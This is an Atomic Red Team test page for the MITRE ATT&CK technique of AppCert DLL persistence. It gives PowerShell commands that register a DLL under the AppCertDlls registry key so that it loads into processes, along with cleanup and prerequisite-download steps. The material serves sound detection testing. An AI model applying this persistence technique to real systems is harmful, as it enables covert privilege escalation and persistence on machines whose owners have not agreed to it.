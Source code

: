 # T1546.009 - Event Triggered Execution: AppCert DLLs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/009)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by AppCert DLLs loaded into processes. Dynamic-link libraries (DLLs) that are specified in the <code>AppCertDLLs</code> Registry key under <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\\</code> are loaded into every process that calls the ubiquitously used application programming interface (API) functions <code>CreateProcess</code>, <code>CreateProcessAsUser</code>, <code>CreateProcessWithLoginW</code>, <code>CreateProcessWithTokenW</code>, or <code>WinExec</code>. (Citation: Elastic Process Injection July 2017)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), this value can be abused to obtain elevated privileges by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. Malicious AppCert DLLs may also provide persistence by continuously being triggered by API activity. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Create registry persistence via AppCert DLL](#atomic-test-1---create-registry-persistence-via-appcert-dll)


<br/>

## Atomic Test #1 - Create registry persistence via AppCert DLL
Creates a new 'AtomicTest' value pointing to an AppCert DLL in the AppCertDlls registry key. 
Once the computer restarted, the DLL will be loaded in multiple processes and write an 
'AtomicTest.txt' file in C:\Users\Public\ to validate that the DLL executed succesfully.

Reference: https://skanthak.homepage.t-online.de/appcert.html

**Supported Platforms:** Windows


**auto_generated_guid:** a5ad6104-5bab-4c43-b295-b4c44c7c6b05





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | path of dll to use | path | PathToAtomicsFolder&#92;T1546.009&#92;bin&#92;AtomicTest.dll|
| reboot | Set value to $true if you want to automatically reboot the machine | string | $false|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item "#{dll_path}" C:\Users\Public\AtomicTest.dll -Force
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /t REG_EXPAND_SZ /d "C:\Users\Public\AtomicTest.dll" /f
if(#{reboot}){Restart-Computer}
```

#### Cleanup Commands:
```powershell
reg delete "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\AppCertDlls" /v "AtomicTest" /f
Remove-Item C:\Users\Public\AtomicTest.dll -Force
Remove-Item C:\Users\Public\AtomicTest.txt -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: File to copy must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.009/bin/AtomicTest.dll" -OutFile "#{dll_path}"
```




<br/>
